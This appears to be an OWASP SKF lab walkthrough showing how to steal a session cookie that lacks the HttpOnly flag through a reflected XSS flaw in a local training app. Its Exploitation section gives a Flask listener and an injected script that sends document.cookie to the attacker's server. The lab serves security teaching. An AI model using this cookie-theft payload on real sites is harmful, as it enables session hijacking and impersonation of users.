 # HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin\
password: admin
{% endhint %}

![](../../.gitbook/assets/python/Session-Hijacking/1.png)

After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/python/Session-Hijacking/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/python/Session-Hijacking/3.png)

![](../../.gitbook/assets/python/Session-Hijacking/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/python/Session-Hijacking/5.png)

```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](../../.gitbook/assets/python/Session-Hijacking/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.

